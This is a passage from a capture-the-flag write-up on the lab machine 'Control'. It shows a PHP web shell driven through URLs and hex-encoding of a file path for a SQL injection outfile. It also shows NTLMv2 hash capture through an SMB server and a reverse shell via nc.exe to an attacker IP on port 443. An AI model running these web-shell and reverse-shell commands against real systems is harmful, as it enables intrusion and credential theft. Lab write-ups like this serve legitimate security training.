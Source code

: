 ```bash
# http://10.10.10.167/uploads/cmd.php?cmd=whoami

#  - ..2,outfile(0x433a5c57696e646f77735c53797374656d33325c647269766572731b74635c686f737473),...
echo "C:/WINDOWS/System32/drivers/etc/hosts" | tr -d '\n'
echo "C:/WINDOWS/System32/drivers/etc/hosts" | tr -d '\n' | xxd -ps
echo "C:/WINDOWS/System32/drivers/etc/hosts" | tr -d '\n' | xxd -ps | xargs
echo "C:/WINDOWS/System32/drivers/etc/hosts" | tr -d '\n' | xxd -ps | xargs | tr -d ' '

tcpdump -i tun0 icmp -n
# http://10.10.10.167/uploads/cmd.php?cmd=ping%20-n%203%2010.10.14.5
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/control_writeup/Control_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To catch an incoming **Reverse Shell** with `nc` on port **443**, I will first perform a test by starting a local **SMB server** and using the **PHP web shell** to try to access shared resources on my attacking machine. The test is successful (I succeed to catch a **NTLMv2 hash** that I can try to crack offline), so I just need `nc.exe` to get a **Reverse Shell**, I start again the server with `impacket-smbserver` and enter the command in my browser to run `nc.exe`, this way I succeed to access the machine and run some basic enumeration commands. A script by **[Antonio Coco](https://github.com/antonioCoco/ConPtyShell){:target="_blank"}**, `ConPtyShell`, can help me to get a **Reverse Shell** with better performance, so I download the script on my machine and make a small modification to enter the **IP** and the **port** to which it should connect. Again I take advantage of the **PHP web shell** to import the `ConPtyShell` script, but my machine does not interact very well with the shell obtained so I go back to the previous one.

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
# http://10.10.10.167/uploads/cmd.php?cmd=\\10.10.14.5\smbFolder\test

locate nc.exe | grep -v al3j0
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap -cAr nc -nlvp 443
# http://10.10.10.167/uploads/cmd.php?cmd=\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```
